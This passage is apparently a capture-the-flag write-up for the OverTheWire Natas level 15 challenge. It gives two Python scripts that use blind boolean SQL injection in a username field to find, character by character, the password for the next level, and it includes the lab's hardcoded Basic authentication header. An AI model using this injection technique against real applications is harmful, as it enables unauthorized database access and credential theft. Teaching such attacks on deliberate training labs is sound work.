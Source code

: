 ```py
import requests
from string import ascii_letters, digits

url = "http://natas15.natas.labs.overthewire.org/index.php"

headers = { # Header requierd to access the challenge
"Authorization":"Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="
}

letters=ascii_letters + digits
all_chars = ""

for char in letters:
	data = {
		"username":'natas16" and password like binary "%'+char+'%";-- -'
	}

	r = requests.post(url, data, headers=headers)

	if "This user exists" in r.text:
		all_chars+=char
		print(all_chars)

print("All chars in password: " + all_chars)
```

![](images/Pasted image 20210318002130.png)

These are all the chars in the password, but obviously no in the correct order. To find which place each char belongs to we can use one `%` in the sql statement like so: `natas16" and password like binary "a%";-- -`

This checks if the letter `a` is at the beginning of the password. Now our script looks something like this:

```py
import requests
from string import ascii_letters, digits

url = "http://natas15.natas.labs.overthewire.org/index.php"

headers = { # Header requierd to access the challenge
	"Authorization":"Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="
}

all_chars = "acehijmnpqtwBEHINORW03569"
password = ""

for i in range(32):
	for char in all_chars:
		data = {
		"username":'natas16" and password like binary "'+password+char+'%";-- -'
		}
		r = requests.post(url, data, headers=headers)

		if "This user exists" in r.text:
			password+=char
			print(password)
			break
```

![](images/Pasted image 20210318004529.png)

I add both scripts as one instead of two seperate

